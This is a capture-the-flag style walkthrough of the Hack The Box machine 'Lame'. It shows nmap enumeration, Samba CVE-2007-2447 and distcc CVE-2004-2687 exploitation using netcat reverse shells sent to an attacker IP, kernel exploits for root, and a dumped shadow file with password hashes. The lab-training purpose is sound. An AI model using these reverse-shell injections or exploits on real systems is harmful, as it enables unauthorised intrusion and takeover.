Lame


nmap

all ports
we see from the full port scan there is service named distccd the initial scanned missed.
running -sV for enumerate version and
-sC enumerate scripts gives us more info on the service
nmap -p 3632 -sC -sV 10.10.10.3

ftp vsftpd
a quick google search reveals that vsftpd 2.3.4 is a notorious for a backdoor vulnerability built into it


nmap scripts
here's a good way to search through nmap's script database to search for potential vulnerabilties for services we've enumeratedls /usr/share/nmap/scripts/ftp*
where the ‘*’ after ‘ftp’ serves as a wildcard to list all of nmaps vulnerability scans relating to ftp

lets use the ftp-vsftpd-backdoor.nse script to scan Lame's vsftpd 2.3.4 service
nmap --script=/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse -p 21 10.10.10.3

the script reports that the service is not vulnerable to the backdoor we serached, it's a rabbit hole
samba exploit
A quick google on the Samba smbd 3.X service reveals there is a command execution metasploit module we can use to own this box


root through Metasploit
fire up msfconsole, search for exploits named samba and chose “usermap_script” script
root without metasploit
according to the CVE description, theres a vulnerability that allows remote command execution from authenticated users (or any share that is not password protected!)
we see we have annoymous access to Lame's smb shares, but lets further enumerate what kind of permissions we have on these shares with smbmap
smbclient -L 10.10.10.3

we see we have read and write permissions to the /tmp share!
smbmap -H 10.10.10.3

/tmp share
we see we can list the files within the /tmp share! but according to cve-2007-2447, these files aren't necessary to execute RCE (remote command execution)
reverse shell
A quick google serach on metacharacters
we'll use a netcat backdoor from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We'll combine a logon command along a nohup command surrounded by metacharacters in order to trick Lame's smb samba service to run a backdoor netcat script back to our attack machine

logon "/=`nohup nc -nv 10.10.14.62 4444 -e /bin/bash`"

run a netcat listener back on our machine on port 4444 before we run the logon command and we catch the shell as root!

potential problem with smbclient 2020 kali
if you are not using smbclient on 2020 kali, there's no need to heed this warningtrying smbclient with our target host results in the following error message:

some googling and there seems to be a thread about it on reddit


the post suggests to add the parametere “client min protocol” and set it to NT1 under the global section

smbclient now works!

distccd v1 exploit


lets search nmap's script engine for it
ls /usr/share/nmap/scripts/distcc*

nmap script .cmd execution
we can add arguments to some of the nmap scripting engine exploits by appending the --script-args <command> to the scriptnmap -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.62 5555 -e /bin/bash'"

setting up a reverse shell listener, we pop a shell as user daemon!

privilege escalation
since gaining control of the user makis through our exploitation of distcc, we'll have to escalate our privileges to rootlets use uname -a to get the kernel version of the victim target and run it against a linux privilege escalator script
./linux-exploit-suggester-2.pl -k 2.6.32
find the github here:


now we can check the exploit suggestor script against the kernel version of our victim machine, to get the version we can use the uname -a command

/linux-exploit-suggestor-2.pl
/linux-exploit-suggester-2.pl -k 2.6.24where -k denotes the kernel version and 2.6.24 is the version we extracted through the uname -a command on the victim




dirty cow (failed)
dirty cow is a reliable exploit but failed to priv escalate, but I figure it may be worthwhile to document the process for anyone interested in how to set up the exploit


copy the raw sourcecode over to your attacking machine and name is dirty.c

spin up an http server to serve our victim the exploit with
python -m SimpleHTTPServer <port>


now download the exploit from our owned daemon user

give the file execute permissions with:
chmod -x <executable>

running it should instantly pop a root shell but the box is not vulernable to exploit

for the record, I have tried running dirty as the makis user as well and ran into the same permission denial which means Lame was most likely patched to prevent dirty cow from working
8572.c (success)


copy the file with searchsploit -m linux/local/8572.c

spin up a http server and download 8572.c to our victim machine


as the exploit usage states, the udevd process ID can be found in the /proc/net/netlink file

running the exploit with the correct udevd PID returns this error:

we'll need to write a run script that our exploit will run as root to pop a root reverse shell on our attack machine
we'll use echo to write the same pen-test monkey netcat reverse shell back to us


start a listener on the port you specified in your run script and spawn a root shell!

post exploitation password cracking
testing out hashcat for fun on Lame's passwords to see if we can crack them/etc/shadow
root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.:17239:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
service:$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/:17239:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
makis:$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.:17239:0:99999:7:::
hashes
$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.
$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0
$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.
$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/
$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.
hashcat

lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/